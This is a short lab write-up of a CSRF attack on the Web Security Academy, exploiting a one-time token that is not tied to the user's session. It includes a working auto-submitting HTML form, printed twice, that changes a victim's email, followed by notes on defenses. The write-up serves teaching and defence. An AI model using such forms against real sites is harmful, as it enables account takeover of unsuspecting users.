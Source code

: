 # CSRF where token is not tied to user session

*A concise write‑up using my original steps (verbatim flow) with small, accurate notes. For authorized lab use only.*

---

## 🎯 Goal
**Change another user’s email address** by abusing a single‑use CSRF token that isn’t bound to the submitting user/session.

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** change other user email.
2. We got **2 accounts**, meaning we already have more ways to maneuver.
3. Since it's a lab, and we get two accounts instantly I will go for the obvious.
4. Notice the **change‑email** request has a **one‑time CSRF** that gets regenerated each time.
5. We can try to **regenerate a CSRF** by sending a request and then **dropping it** (capture the token without completing the change).
6. Take the **CSRF token** to the **other account** and try to change the mail → **worked.**
7. Build an **auto‑submit form** including the captured CSRF token:
   ```html
   <form id="ex" action="https://0a1e004e036cdee380b703e6004a00c2.web-security-academy.net/my-account/change-email" method="POST">
     <input name="email" value="email@gmail.com">
     <input name="csrf" value="RJtiUHOcCn3dISmA0rrOPQKQ7AZqUMKZ">
   </form>

   <script>document.getElementById("ex").submit()</script>
   ```
8. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)

- The CSRF token is **single‑use** but **not tied to the user/session** who requested it. That means a token **minted in Account A** is accepted when **submitted by Account B**.
- Proper defenses must **bind tokens** to a stable user/session context (and often to a specific action + expiry), and verify **Origin/Referer**. Tokens alone are insufficient if they’re **transferable** across sessions.
- Browser will **include the victim’s cookies** on cross‑site form POST, authenticating the request even though the token originated elsewhere.

> If the target used `SameSite=Lax/Strict` cookies or strict Origin checks, cross‑site form posts could be blocked/rejected. This lab accepts them.

---

## 🧾 Raw exploit (kept exactly)
```html
<form id="ex" action="https://0a1e004e036cdee380b703e6004a00c2.web-security-academy.net/my-account/change-email" method="POST">
  <input name="email" value="email@gmail.com">
  <input name="csrf" value="RJtiUHOcCn3dISmA0rrOPQKQ7AZqUMKZ">
</form>

<script>document.getElementById("ex").submit()</script>
```

---

## 🏁 Result
- Captured a fresh CSRF token from one account and **reused it in another**, proving the token isn’t bound to the user/session. Email change succeeds. **Solved. ✅**

